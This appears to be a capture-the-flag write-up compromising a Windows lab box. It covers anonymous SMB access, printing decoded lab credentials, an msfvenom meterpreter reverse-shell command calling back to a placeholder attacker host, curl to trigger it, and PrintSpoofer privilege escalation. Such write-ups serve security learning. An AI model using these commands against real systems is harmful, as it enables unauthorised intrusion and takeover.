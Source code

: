```yaml
---
sticker: emoji//1f440
---
```

# ENUMERATION
---

## OPEN PORTS
---


| PORT  | SERVICE               |
| :---- | :-------------------- |
| 80    | `http`                |
| 135   | `msrpc`               |
| 139   | `netbios-ssn?`        |
| 445   | `tcp (SMB)`           |
| 3389  | `ms-wbt-server (RDP)` |
| 49663 | `http`                |
| 49667 | `msrpc`               |
| 49669 | `msrpc`               |
|       |                       |
A lot of ports are open, let's proceed to check the website located at port `80`


![](gitbook/cybersecurity/images/Pasted%252520image%25252020241122171440.png)

Nothing useful is in here, let's skip the fuzzing part as it doesn't contain anything too.

As shown in the open ports, we have RDP on `3389` and also SMB on `445`, let's try to enumerate SMB to check if there's anything useful.





# RECONNAISSANCE
---


## SMB Enumeration

Let's run the following command to list the shares in `SMB`:

`smbclient -l IP`

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241122173253.png)

We find a share `nt4wrksv`, let's research to check if there's a way to access to it:

```ad-hint

#### How to access?
----

Command used

`smbclient \\\\<Victim Ip>\\nt4wrksv`

If we use that, we are able to connect even without the password:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241122173850.png)

```

We are in and found a `passwords.txt` file, let's download it and take a look at it:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241122173939.png)

Seems like two passwords, both are `base64` encoded, let's decode them:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241122174102.png)

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241122174229.png)

We got the following credentials:

```ad-note

`Bob` : `!P@$$W0rD!123`
`Bill` : `Juw4nnaM4n420696969!$$$`


```

Let's scan the machine further to check if there's anything vulnerable, for this, I will use the following Nmap scan:

```ad-hint

##### Nmap
----

If we use: `nmap -Pn -script vuln IP`, we get the following:


![](gitbook/cybersecurity/images/Pasted%252520image%25252020241122180438.png)
The `3389` port is vulnerable to RCE. let's get a shell.

```
# EXPLOITATION
---

Nice, for the exploitation part we need to do the following:

```ad-summary
### Step to step to get the shell
---


1. Use msfvenom and create the reverse shell: `msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=OURIP lport=ourport -f aspx -o reverse_shell.aspx`
2. Upload the reverse shell file to the network share:
![](gitbook/cybersecurity/images/Pasted%252520image%25252020241122182149.png)
3. Use curl to retrieve the reverse shell: `curl http://IP:49663/nt4wrksv/reverse_shell.aspx`
4. Let's use metasploit's multi handler to create a listener:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241122182439.png)

Let's run the multi handler and use curl at the same time to get our shell:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241122182628.png)



```



Nice, let's do privilege escalation



# PRIVILEGE ESCALATION
---



For privilege escalation, we need to investigate the machine, let's take a look at the privileges using `getprivs`:


![](gitbook/cybersecurity/images/Pasted%252520image%25252020241122182831.png)

Most interesting one is the `SeImpersonatePrivilege`, we can impersonate, for this privilege escalation, we'll be impersonating `PrintSpoofer`:

```ad-note

Script: [GITHUB LINK](https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe)
```

Once we've put the script inside of our machine using smb, we can do the following:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241122183155.png)

Switch to shell and go to this route: 

`c:/inetpub/wwwroot/nt4wrksv`

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241122183251.png)

We can now see our `PrintSpoofer64.exe` program, we need to do the following in order to get a reverse shell:

`PrintSpoofer64.exe -i -c powershell.exe`

We are taking advantage of the `SeImpersonatePrivilege`, let's get our root shell:


![](gitbook/cybersecurity/images/Pasted%252520image%25252020241122183438.png)

And just like that, CTF is done.

